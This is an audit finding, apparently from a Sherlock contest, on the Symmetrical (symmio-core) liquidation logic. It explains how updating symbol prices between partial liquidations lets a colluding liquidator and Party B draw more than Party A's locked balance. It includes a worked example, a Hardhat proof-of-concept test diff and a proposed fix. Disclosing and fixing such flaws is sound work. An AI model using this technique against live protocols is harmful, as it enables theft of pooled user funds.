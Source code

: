 berndartmueller

medium

# Consecutive symbol price updates can be exploited to drain protocol funds

## Summary

Repeatedly updating the symbol prices for the symbols used in Party A's positions mid-way through a liquidation while maintaining the same Party A's UPnL and total unrealized losses leads to more profits for Party B and effectively steals funds from the protocol.

## Vulnerability Detail

The `setSymbolsPrice` function in the `LiquidationFacetImpl` library is used to set the prices of symbols for Party A's positions. It is called by the liquidator, who supplies the `PriceSig memory priceSig` argument, which contains, among other values, the prices of the symbols as well as the `upnl` and `totalUnrealizedLoss` of Party A's positions.

Party A's `upnl` and `totalUnrealizedLoss` values are [stored in Party A's liquidation details](https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L59-L60) and enforced to remain the same for consecutive calls to `setSymbolsPrice` via the `require` statement in lines 90-95.

However, as long as those two values remain the same, the liquidator can set the prices of the symbols to the current market prices (fetched by the Muon app). If a liquidator liquidates Party A's open positions in multiple calls to `liquidatePositionsPartyA` and updates symbol prices in between, Party B potentially receives more profits than they should have.

The git diff below contains a test case to demonstrate the following scenario:

Given the following symbols:

1. `BTCUSDT`
2. `AAVEUSDT`

For simplicity, we assume trading fees are 0.

Party A's allocated balance: `100e18 USDT`

Party A has two open positions with Party B:

| ID  | Symbol   | Order Type | Position Type | Quantity | Price | Total Value | CVA   | LF    | MM  | Total Locked | Leverage |
| --- | -------- | ---------- | ------------- | -------- | ----- | ----------- | ----- | ----- | --- | ------------ | -------- |
| 1   | BTCUSDT  | LIMIT      | LONG          | 100e18   | 1e18  | 100e18      | 25e18 | 25e18 | 0   | 50e18        | 2        |
| 2   | AAVEUSDT | LIMIT      | LONG          | 100e18   | 1e18  | 100e18      | 25e18 | 25e18 | 0   | 50e18        | 2        |

Party A's available balance: 100e18 - 100e18 = 0 USDT

Now, the price of `BTCUSDT` drops by 40% to `0.6e18 USDT`. Party A's `upnl` and `totalUnrealizedLoss` are now `-40e18 USDT` and `-40e18 USDT`, respectively.

Party A is insolvent and gets liquidated.

The liquidator calls `setSymbolsPrice` for both symbols, setting the price of `BTCUSDT` to `0.6e18 USDT` and the price of `AAVEUSDT` to `1e18 USDT`. The `liquidationDetails` of Party A are as follows:

- `liquidationType`: `LiquidationType.NORMAL`
- `upnl`: `-40e18 USDT`
- `totalUnrealizedLoss`: `-40e18 USDT`
- `deficit`: 0
- `liquidationFee`: `50e18 - 40e18 = 10e18 USDT`

The liquidator first liquidates position 1 -> Party B receives `40e18 USDT` + `25e18 USDT` (CVA) = `65e18 USDT`

Now, due to a volatile market, the price of `AAVEUSDT` drops by 40% to `0.6e18 USDT`. The liquidator calls `setSymbolsPrice` again, setting the price of `AAVEUSDT` to `0.6e18 USDT`. `upnl` and `totalUnrealizedLoss` remain the same. Thus the symbol prices can be updated.

The liquidator liquidates position 2 -> Party B receives `40e18 USDT` + `25e18 USDT` (CVA) = `65e18 USDT`

Party B received in total `65e18 + 65e18 = 130e18 USDT`, which is `30e18` USDT more than Party A's initially locked balances. Those funds are effectively stolen from the protocol and bad debt.

Conversely, if both positions had been liquidated in the first call without updating the symbol prices in between, Party B would have received `40e18 + 25e18 = 65e18 USDT`, which Party A's locked balances covered.

<details>
  <summary><strong>Git diff</strong></summary>

```diff
diff --git a/symmio-core/test/Initialize.fixture.ts b/symmio-core/test/Initialize.fixture.ts
index 2df1e6f..cfe81c0 100644
--- a/symmio-core/test/Initialize.fixture.ts
+++ b/symmio-core/test/Initialize.fixture.ts
@@ -45,7 +45,11 @@ export async function initializeFixture(): Promise<RunContext> {

 await context.controlFacet
   .connect(context.signers.admin)
-    .addSymbol("BTCUSDT", decimal(5), decimal(1, 16), decimal(1, 16));
+    .addSymbol("BTCUSDT", decimal(5), decimal(1, 16), decimal(0));
+
+    await context.controlFacet
+    .connect(context.signers.admin)
+    .addSymbol("AAVEUSDT", decimal(5), decimal(1, 16), decimal(0));

 await context.controlFacet.connect(context.signers.admin).setPendingQuotesValidLength(10);
 await context.controlFacet.connect(context.signers.admin).setLiquidatorShare(decimal(1, 17));
diff --git a/symmio-core/test/LiquidationFacet.behavior.ts b/symmio-core/test/LiquidationFacet.behavior.ts
index 2e06b92..08e40d2 100644
--- a/symmio-core/test/LiquidationFacet.behavior.ts
+++ b/symmio-core/test/LiquidationFacet.behavior.ts
@@ -7,8 +7,10 @@ import { Hedger } from "./models/Hedger";
import { RunContext } from "./models/RunContext";
import { BalanceInfo, User } from "./models/User";
import { decimal, getTotalLockedValuesForQuoteIds, getTradingFeeForQuotes, liquidatePartyA } from "./utils/Common";
-import { getDummySingleUpnlSig } from "./utils/SignatureUtils";
+import { getDummyPriceSig, getDummySingleUpnlSig } from "./utils/SignatureUtils";
import hre from "hardhat";
+import { limitQuoteRequestBuilder } from "./models/requestModels/QuoteRequest";
+import { limitOpenRequestBuilder } from "./models/requestModels/OpenRequest";

export function shouldBehaveLikeLiquidationFacet(): void {
 beforeEach(async function() {
@@ -16,7 +18,7 @@ export function shouldBehaveLikeLiquidationFacet(): void {

   this.user = new User(this.context, this.context.signers.user);
   await this.user.setup();
-    await this.user.setBalances(decimal(2000), decimal(1000), decimal(500));
+    await this.user.setBalances(decimal(2000), decimal(100), decimal(100));

   this.user2 = new User(this.context, this.context.signers.user2);
   await this.user2.setup();
@@ -39,20 +41,26 @@ export function shouldBehaveLikeLiquidationFacet(): void {
   await this.hedger.openPosition(1);

   // Quote2 -> locked
-    await this.user.sendQuote();
+    await this.user.sendQuote(
+      limitQuoteRequestBuilder()
+        .symbolId(2)
+        .build()
+    );
   await this.hedger.lockQuote(2);
+    await this.hedger.openPosition(2,
+      limitOpenRequestBuilder().price(decimal(1)).build());

   // Quote3 -> sent
-    await this.user.sendQuote();
+    // await this.user.sendQuote();

   // Quote4 -> user2 -> opened
-    await this.user2.sendQuote();
-    await this.hedger.lockQuote(4);
-    await this.hedger.openPosition(4);
+    // await this.user2.sendQuote();
+    // await this.hedger.lockQuote(4);
+    // await this.hedger.openPosition(4);

   // Quote5 -> locked
-    await this.user.sendQuote();
-    await this.hedger.lockQuote(5);
+    // await this.user.sendQuote();
+    // await this.hedger.lockQuote(5);
 });

 describe("Liquidate PartyA", async function() {
@@ -116,16 +124,12 @@ export function shouldBehaveLikeLiquidationFacet(): void {
   describe("Liquidate Positions", async function() {
     beforeEach(async function() {
       const context: RunContext = this.context;
-        await liquidatePartyA(
-          context,
-          context.signers.user.getAddress(),
-        );
-        await liquidatePartyA(
-          context,
-          context.signers.user2.getAddress(),
-          context.signers.liquidator,
-          decimal(-475),
-        );
+        // await liquidatePartyA(
+        //   context,
+        //   context.signers.user2.getAddress(),
+        //   context.signers.liquidator,
+        //   decimal(-475),
+        // );
     });

     it("Should fail on invalid state", async function() {
@@ -179,6 +183,72 @@ export function shouldBehaveLikeLiquidationFacet(): void {
       let balanceInfoOfLiquidator = await this.liquidator.getBalanceInfo();
       expect(balanceInfoOfLiquidator.allocatedBalances).to.be.equal(decimal(1));
     });
+
+      it.only("Should maliciously liquidate positions", async function() {
+        const context: RunContext = this.context;
+        let user = context.signers.user.getAddress();
+        let hedger = context.signers.hedger.getAddress();
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyA(user)).to.be.equal(
+          decimal(100),
+        );
+
+        await liquidatePartyA(
+          context,
+          context.signers.user.getAddress(),
+        );
+
+        await context.liquidationFacet
+          .connect(context.signers.liquidator)
+          .liquidatePendingPositionsPartyA(user);
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyB(hedger, user)).to.be.equal(
+          decimal(240),
+        );
+
+        await context.liquidationFacet
+          .connect(context.signers.liquidator)
+          .liquidatePositionsPartyA(user, [1]);
+
+          expect((await context.viewFacet.isPartyALiquidated(user))).to.be.true;
+
+        expect((await context.viewFacet.getQuote(1)).quoteStatus).to.be.equal(
+          QuoteStatus.LIQUIDATED,
+        );
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyB(hedger, user)).to.be.equal(
+          decimal(240 + 65), // @audit-info 65 profit: 40 profit from position + 25 CVA
+        );
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyA(user)).to.be.equal(
+          decimal(100), // @audit-info remains unchanged until the liquidation process is complete
+        );
+
+        await context.liquidationFacet
+          .connect(context.signers.liquidator)
+          .setSymbolsPrice(
+            user,
+            await getDummyPriceSig([2], [decimal(6, 17)], decimal(-40), decimal(-40)), // @audit-info price of symbol #2 dropped by 40% (6e17) -> same UPnL and total loss
+          );
+
+        await context.liquidationFacet
+          .connect(context.signers.liquidator)
+          .liquidatePositionsPartyA(user, [2]);
+
+        expect((await context.viewFacet.getQuote(2)).quoteStatus).to.be.equal(
+          QuoteStatus.LIQUIDATED,
+        );
+
+        expect((await context.viewFacet.isPartyALiquidated(user))).to.be.false;
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyB(hedger, user)).to.be.equal(
+          decimal(240 + 65 + 65), // @audit-info 130 profit in total: 80 profit from positions + 50 CVA
+        );
+
+        expect(await context.viewFacet.allocatedBalanceOfPartyA(user)).to.be.equal(
+          decimal(0),
+        );
+      });
   });
 });

diff --git a/symmio-core/test/models/requestModels/QuoteRequest.ts b/symmio-core/test/models/requestModels/QuoteRequest.ts
index 833e181..82d45b9 100644
--- a/symmio-core/test/models/requestModels/QuoteRequest.ts
+++ b/symmio-core/test/models/requestModels/QuoteRequest.ts
@@ -29,9 +29,9 @@ const limitDefaultQuoteRequest: QuoteRequest = {
 orderType: OrderType.LIMIT,
 price: decimal(1),
 quantity: decimal(100),
-  cva: decimal(22),
-  mm: decimal(75),
-  lf: decimal(3),
+  cva: decimal(25),
+  mm: decimal(0),
+  lf: decimal(25),
 maxInterestRate: 0,
 deadline: getBlockTimestamp(500),
 upnlSig: getDummySingleUpnlAndPriceSig(decimal(1)),
diff --git a/symmio-core/test/utils/Common.ts b/symmio-core/test/utils/Common.ts
index ed0c3c9..69f7ed5 100644
--- a/symmio-core/test/utils/Common.ts
+++ b/symmio-core/test/utils/Common.ts
@@ -119,10 +119,10 @@ export async function liquidatePartyA(
 context: RunContext,
 liquidatedUser: Promise<string>,
 liquidator: SignerWithAddress = context.signers.liquidator,
-  upnl: BigNumberish = decimal(-473),
-  totalUnrealizedLoss: BigNumberish = 0,
-  symbolIds: BigNumberish[] = [1],
-  prices: BigNumberish[] = [decimal(1)],
+  upnl: BigNumberish = decimal(-40),
+  totalUnrealizedLoss: BigNumberish = decimal(-40),
+  symbolIds: BigNumberish[] = [1, 2],
+  prices: BigNumberish[] = [decimal(6, 17), decimal(1)],
) {
 await context.liquidationFacet
   .connect(liquidator)
```

</details>

**How to run this test case:**

Save git diff to a file named `exploit-liquidation.patch` and run with

```bash
git apply exploit-liquidation.patch
npx hardhat test
```

## Impact

A malicious liquidator can cooperate with Party B and by exploiting this issue during a volatile market, can cause Party B to receive more funds (profits, due to being the counterparty to Party A which faces losses) than it should and steal funds from the protocol.

## Code Snippet

[contracts/facets/liquidation/LiquidationFacetImpl.sol#L90-L95](https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L90-L95)

```solidity
34: function setSymbolsPrice(address partyA, PriceSig memory priceSig) internal {
35:     MAStorage.Layout storage maLayout = MAStorage.layout();
36:     AccountStorage.Layout storage accountLayout = AccountStorage.layout();
37:
38:     LibMuon.verifyPrices(priceSig, partyA);
39:     require(maLayout.liquidationStatus[partyA], "LiquidationFacet: PartyA is solvent");
40:     require(
41:         priceSig.timestamp <=
42:             maLayout.liquidationTimestamp[partyA] + maLayout.liquidationTimeout,
43:         "LiquidationFacet: Expired signature"
44:     );
45:     for (uint256 index = 0; index < priceSig.symbolIds.length; index++) {
46:         accountLayout.symbolsPrices[partyA][priceSig.symbolIds[index]] = Price(
47:             priceSig.prices[index],
48:             maLayout.liquidationTimestamp[partyA]
49:         );
50:     }
51:
52:     int256 availableBalance = LibAccount.partyAAvailableBalanceForLiquidation(
53:         priceSig.upnl,
54:         partyA
55:     );
56:     if (accountLayout.liquidationDetails[partyA].liquidationType == LiquidationType.NONE) {
57:         accountLayout.liquidationDetails[partyA] = LiquidationDetail({
58:             liquidationType: LiquidationType.NONE,
59:             upnl: priceSig.upnl,
60:             totalUnrealizedLoss: priceSig.totalUnrealizedLoss,
61:             deficit: 0,
62:             liquidationFee: 0
63:         });
...     // [...]
89:     } else {
90: @>      require(
91: @>          accountLayout.liquidationDetails[partyA].upnl == priceSig.upnl &&
92: @>              accountLayout.liquidationDetails[partyA].totalUnrealizedLoss ==
93: @>              priceSig.totalUnrealizedLoss,
94: @>          "LiquidationFacet: Invalid upnl sig"
95: @>      );
96:     }
97: }
```

## Tool used

Manual Review

## Recommendation

Consider preventing the liquidator from updating symbol prices mid-way of a liquidation process.

Or, alternatively, store the number of Party A's open positions in the `liquidationDetails` and only allow updating the symbol prices if the current number of open positions is still the same, effectively preventing the liquidator from updating the symbol prices once a position has been liquidated.
